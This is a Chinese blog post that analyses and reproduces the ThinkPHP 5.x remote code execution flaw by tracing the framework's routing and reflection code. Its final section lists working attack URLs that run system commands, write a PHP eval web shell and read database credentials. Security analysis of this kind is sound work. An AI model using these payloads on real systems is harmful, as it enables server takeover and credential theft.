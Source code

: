 ```yaml
---
layout: post
title: "ThinkPHP远程命令执行漏洞原理及复现"
categories: thinkphp
tags: 漏洞 复现 ThinkPHP
author: Snow狼
---
```




* content
{:toc}

![](https://i.loli.net/2019/10/03/X8yTZWnr3sbANuH.png)






## 漏洞介绍

2018年12月11日，exploit-db更新了一个thinkphp框架远程代码执行漏洞

exploit地址：[https://www.exploit-db.com/exploits/45978](https://www.exploit-db.com/exploits/45978)

由于框架对控制器名没有进行足够的检测导致在没有开启强制路由的情况下getshell

## 漏洞影响范围

Thinkphp 5.1.0 - 5.1.31

Thinkphp 5.0.5 - 5.0.23

## 安装

下载地址[http://www.thinkphp.cn/donate/download/id/1125.html](http://www.thinkphp.cn/donate/download/id/1125.html)

下载完解压在/var/www/html/目录下即可

![](https://s1.51cto.com/images/blog/201901/04/e977f720f782297588d4334fa37d2910.jpg?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

## 漏洞分析

/thinkphp/library/think/App.php 行数:120

![](https://s1.51cto.com/images/blog/201901/04/29d62d71b492d7f7afe2106921ae16b8.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

我们可以看到通过self::routerCheck函数进行路由检测

![](https://s1.51cto.com/images/blog/201901/04/9747ca8286059414d52d5c9ecbab26f0.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

我们可以看到又进入$request->path()函数

/thinkphp/library/think/Request.php 行数:416行

![](https://s1.51cto.com/images/blog/201901/04/b8d9cbb52caedb1c6a60708a65c31bf3.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

进入pathinfo()函数，继续追踪到384行

![](https://s1.51cto.com/images/blog/201901/04/b7f99f4cf2507e82033e2d8c587c910b.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

Config::get('var_pathinfo')是配置文件中的设置的参数，默认值为s，从GET中获取键值，然后赋值给routeCheck中的$path

我们再回到App.php 行数:606

![](https://s1.51cto.com/images/blog/201901/04/7fe5a2669588d40d5418dbbddad49a22.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

这里会进行路由检测，检查$check后会进入else分支导入路由配置，接着检测路由url调度结果为$result，如果调度失败且开启了强制路由$must，则报出路由无效，接着进入Route::parseUrl函数，根据$path（自定义url）解析操作

开始跟踪parseUrl函数

/thinkphp/library/think/Route.php 行数:1208

![](https://s1.51cto.com/images/blog/201901/04/35bbca6752ee778d2909c48abd6abb24.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

进入parseUrlPath函数 行数:1275

![](https://s1.51cto.com/images/blog/201901/04/b5713be4395cec4b7e1f6fa26faac827.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

这里我们可以看到对模块/控制器/操作的url地址分割成数组来返回（没截好图有点重了）行数:1217

![](https://s1.51cto.com/images/blog/201901/04/cbe6e6cd92414052b29bbe79ec87b4d3.jpg?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

![](https://s1.51cto.com/images/blog/201901/04/4326f9e6954964bd2099d5ce5d8dc08d.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

我们可以看到，返回的结果赋值为$path,提取路由信息又封装到$route,最后返回

thinkphp/library/think/App.php 行数:120

![](https://s1.51cto.com/images/blog/201901/04/bf004cf83942d3e9454fcf126ec8ed0b.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

进入self::exec函数 行数:445

![](https://s1.51cto.com/images/blog/201901/04/3c41d247eb5ee1cec6d61eeaa9104183.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

我们可以看到模块/控制器/操作 的函数为self::module

开始跟踪module函数 行数:494

![](https://s1.51cto.com/images/blog/201901/04/3f13590728bf35619ffd2ad82dde112c.jpg?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

![](https://s1.51cto.com/images/blog/201901/04/c674d9dfc3351d4aa783d7469a03fb85.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

我们可以看到，根据$config['app_multi_module']进入多模块部署，$bind为NULL，又进入elseif分支，判断模块是否在禁止的列表里面$config['deny_module_list']，而且mmodule存在，$available = true，就不会抛出异常

module函数最后的返回值，发现$controller没有进行过滤，那么此时应该为think\app，也就是return self::invokeMethod($call, $vars);

![](https://s1.51cto.com/images/blog/201901/04/e53820397f83c87333084ce9421a315e.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

进入self::invokeMethod函数 行数:329

![](https://s1.51cto.com/images/blog/201901/04/f69689b439bd033639a0ce8b53b19405.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

此时穿进去的$call也就是$method,是一个数组，第一个元素是一个think\App对象，第二个元素则是调用方法名称的字符串invokefunction，然后通过反射ReflectionMethod获取这个对象下对应的方法

再通过函数$args = self::bindParams($reflect, $vars);获取传入的参数，也就是payload

最后再调用反射$reflect->invokeArgs($args);，将Payload数组传入反射对象函数invokeFunction，完成代码执行。

![](https://s1.51cto.com/images/blog/201901/04/1f71a27cb067d39cf42debce046fbbfc.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

至此，ThinkPHP远程代码执行漏洞分析完成

* * *

## 漏洞利用

http://xxx.xxx.xxx(这里为你的域名)/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

远程代码执行命令:whoami（链接后面的whoami可以改成你要执行的命令,特殊符号请进行url转码）

http://xxx.xxx.xxx/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

通过phpinfo函数写出phpinfo的信息

![](https://s1.51cto.com/images/blog/201901/04/5a98ecb2efd63f095ab1547969d34415.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

http://xxx.xxx.xxx/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_GET[%22snowwolf%22])?^%3E%3Eshell.php

写入shell

http://xxx.xxx.xxx/public/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100

也是显示phpinfo

http://xxx.xxxx.xxx/thinkphp/public//?s=.\|think\config/get&name=database.username

数据库用户名（后面的username改为password为数据库密码）

![](https://s1.51cto.com/images/blog/201901/28/723575b76c42b33f1bde8124b9c322c5.jpg?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

至此，漏洞原理，复现，分析完成
